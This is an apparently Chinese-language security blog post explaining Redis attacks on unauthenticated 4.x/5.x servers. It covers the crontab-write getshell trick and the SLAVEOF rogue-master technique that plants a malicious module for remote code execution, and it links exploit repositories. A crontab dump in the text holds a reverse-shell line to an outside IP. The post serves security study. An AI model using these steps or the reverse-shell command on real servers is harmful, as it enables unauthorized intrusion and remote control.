


The foregoing.
当初，WCTF2019 Final赛后分享会上，LC⚡️BC战队成员公开的Redis主从攻击RCE激起了一波研究热潮。究其原因便是该攻击的普适性可以让所有4.x/5.x版本非授权访问的Redis无处遁形，本文就Redis攻击基础和Redis主从攻击作粗略讨论。
PART1: Redis basics
在讲主从攻击之前，我们需要了解一些攻击相关的命令和通讯协议结构。
Redis基础
Redis作为极其轻量化的数据结构存储媒介，让其成为很多场景的解决方案：
- 序列化Session/Caching数据存储
- PUB/SUB消息服务
- 异步任务队列的消息代理
其命令也比常见数据库要简单很多：
- 存储/获取键值型的数据:
set <key> <value>&get <key> - 修改/获取配置:
config <get> <key>&config set <key> <value> - 获取该Redis基本信息:
info - 保存:
save - 停止:
shutdown [save/nosave]
从简单的介绍中，读者也应该隐约理解Redis产品定位和其收到追捧的原因。不过，本文之意不在Redis入门，故不再赘述。
Redis协议分析
首先请试想一下，在Redis命令行中输入SET a helloworld这一串字符后，它会出现在网络数据包的什么地方，并以什么形式呈现呢？
其实，Redis的通讯协议比较简单，它是基于TCP，并将通讯内容明文传输，这有点类似于初学python编写的TCP聊天室一样简单，但是Redis添加了修饰符保证通讯稳定性和可靠性。
比如上文的字符串在TCP Payload中形如：*3\r\n$3\r\nSET\r\n$1\r\na\r\n$10\r\nhelloworld\r\n，读者略微思考一下就可以弄懂其逻辑结构: *号后的数字用于表示参数数量，$号后的数字用于表示参数长度，各具有单独意义的字符串通过CRLF分开。
而Redis对传入数据包的回复更加简单，通常采用+号后跟响应字符串（通常为OK），并以CRLF结尾，形如：+OK\r\n。
Redis模块
Redis 4.x之后，Redis可以通过添加C语言编译出的.so文件来为其自定义地添加新命令。模块有两种加载方式：
- 在配置文件中MODULES板块下添加
loadmodule /path/to/my/module.so，Redis便会启动时加载该模块。 - 通过
redis-cli使用命令module load /path/to/my/module.so加载。
加载的模块可以使用命令module list查看，使用MODULE UNLOAD mymodule卸载。
既然可以自定义新命令，那么有没有开发者实现执行系统命令的模块呢？答案是肯定的，该项目可编译出相关模块: https://github.com/n0b0dyCN/RedisModules-ExecuteCommand
PART2: Redis SLAVEOF Attack
未授权Redis Getshell
在主从攻击公布之前，我们针对未授权Redis主要采用crontab来getshell。大致操作如下：
1 | $ config set dir /var/spool/cron/crontabs |
思路是很好，通过更改备份目录和文件名，以写数据备份到/var/spoof/cron/crontabs/root中，完成写入定时项目。但是实际在Ubuntu测试中存在两个问题：
- crontab写入的root文件的权限必须为600，也就是
rw-------，否则会出现cron[53948]: (root) INSECURE MODE (mode 0600 expected)。但是redis通过save保存的dbfile为644. - Ubuntu cron对于dbfile上下冗余数据容错不高，且我们写入的命令必被定位于文件中段，形似：导致cron出现报错：
1
2
3
4REDIS0009ú redis-ver^E5.0.7ú
redis-bitsÀ@ú^EctimeÂÜ)^H_ú^Hused-memÂP^X^M^@ú^Laof-preambleÀ^@þ^@û^A^@^@À^A9
* * * * * /bin/bash -i >& /dev/tcp/10.0.4.162/9999 0>&1
ÿ^Lþô<8e>S¨·¶bad minute; while reading crontab for user rootERROR (Syntax error, this crontab file will be ignored)。
以上原因导致就算我们遇见一台未授权Redis，且以root身份运行，我们可能也无法成功Getshell。（CentOS相比Ubuntu容错更高）
SLAVEOF解析
Redis主从命令为SLAVEOF (但由于美国黑人运动的影响，将在后续版本使用REPLICAOF，本文暂且沿用SLAVEOF)，从该命令的两个名字来看，不难理解主从功能实质上就是复制(Replication)，使该Redis服务器变为另一指定IP和PORT的Redis服务器的复制。SLAVEOF HOST PORT为命令基本用法，相关注意事项如下：
- 一台处于Slave状态的服务器，我们可以通过
SLAVEOF HOST PORT使其重新选择一台Master作为其复制的来源。 - 我们可以通过使用
SLAVEOF NO ONE来让一台处于Slave状态的服务器停止复制行为，重新作为一台独立的Master服务器。可见SLAVEOF命令初衷是作热灾备使用的。
当然，我们更应该关注master向slave发送该命令后，它们之间发生了怎样的通信？了解了这些后我们就能轻易构造攻击。方便起见，我先把主从攻击中发生的通讯流程放上来，一条条分析：

PING命令用于测试某个连接是否存活，slave服务器会利用此命令来在发送同步信息前不停检测master是否存活，得到+PONG后开始进行下一步。REPLCONF命令从Redis源码replication.c的注释中可以得知其用途:This command is used by a slave in order to configure the replication process before starting it with the SYNC command.
Currently the only use of this command is to communicate to the master what is the listening port of the Slave redis instance, so that the master can accurately list slaves and their listening ports in the INFO output.
In the future the same command can be used in order to configure the replication to initiate an incremental replication instead of a full resync.
简单来说，它被用于在主从同步之前，slave先通过该命令交换自己的listening port等信息给master。master只要一直回复+OK直到下一命令出现即可。
PSYNC <replid>命令由官方文档PSYNC-Redis可知，其用于向master请求生成一串replication stream以尝试部分同步数据(PSYNC = partial resynchronizations)。其参数为replication id，它是40字节的伪随机字符串，用于标记某一数据库，便于master判断slave与其当前存储的数据的差别，从而该从哪个偏移量复制起，或者完全重新复制。当然replication id标记数据也便于恢复。详见Redis Replication文档，文档略长，适当学习即可。(部分文章提到的SYNC命令已在新版本被PSYNC取代，因为它不支持部分同步)+FULLRESYNC <replid> <offset>命令用于在master通过slave replid判断需要完全重新同步(FULLRESYNC = full resynchronization)后，通过该命令发送一串stream用来完全覆盖slave当前的dbfile！这点非常关键，说明我们通过该命令攻击将不用受到上文crontab getshell中一样遭受冗余字符对攻击的干扰 (当然也可通过slaveof改进上文crontab getshell攻击方法，读者可以自行验证在Ubuntu上的可行性)。其中<replid>使用任意40位的字符串即可，设为1，表示从dbfile开头开始覆盖，最后通过CRLF作分割，跟上覆盖的字符串长度和内容即可。
主从攻击思路与实现
LC⚡️BC的主从攻击在写入Payload方面与我们上文所讲的Getshell类似，通过更改数据备份文件名，然后控制写入内容，最后Redis/OS相关服务读取该文件达到RCE的目的。为了便于简单的验证，我们假设RCE场景为：
- 目标服务器可与恶意服务器可双向通讯。
- 目标服务器上某端口开启Redis 4.x/5.x服务，可直接访问，且未授权/已知auth key。
- 对目标服务器Redis数据结构和其它信息均零了解。
综合上文讨论的所有内容，那么我们可以编写一个攻击脚本，模拟恶意Redis服务器完成对目标Redis的攻击，流程如下：
- 通过TCP连上目标Redis后，发送
slaveof命令使其成为我们恶意服务器的slave。 - 获取目标Redis当前dbfile文件名和存储文件夹，并通过修改配置文件将dbfile文件名改为
xxx.so。 - 监听恶意服务器的端口，程序模拟主从同步过程，
+FULLRESYNC末尾字符串使用实现编译好的.so文件的HEX，从而写入模块进目标服务器。 - 发送命令使目标Redis动态加载刚写入的模块。
- 使用模块创建的新命令以远程执行系统命令，达到RCE的目的。
- unload并删除模块，将dbfile文件名重置为原先的名称。
- 断开连接。
通过以上思路，参考Dliv3的python3 EXP，fork修改后成为如下项目: https://github.com/we08guyy/redis-rogue-server，运行截图如下：

运行前输入目标和攻击机ip&port，以及.so文件名后等信息后，运行成功将会返回一个可交互的类命令行。读者可以通过浏览源码加深对主从攻击的理解。
Afterword.
主从攻击本质上来说，就是对Redis协议的攻击。由于其协议过于简单(无加密/无身份认证/协议结构简单/开源)，导致其主从通讯被恶意利用，通过写文件加远程执行Redis命令最终达到了RCE的目的。有兴趣的读者可以研究Redis 6.x版本对相关问题的改进方案，也欢迎与作者交流、探讨。
References
- https://2018.zeronights.ru/wp-content/uploads/materials/15-redis-post-exploitation.pdf
- https://lorexxar.cn/2019/07/10/redis-5-x-rce/
- https://redis.io/commands/slaveof
- https://redis.io/topics/replication
- https://download.redis.io/redis-stable/src/replication.c
- https://github.com/n0b0dyCN/RedisModules-ExecuteCommand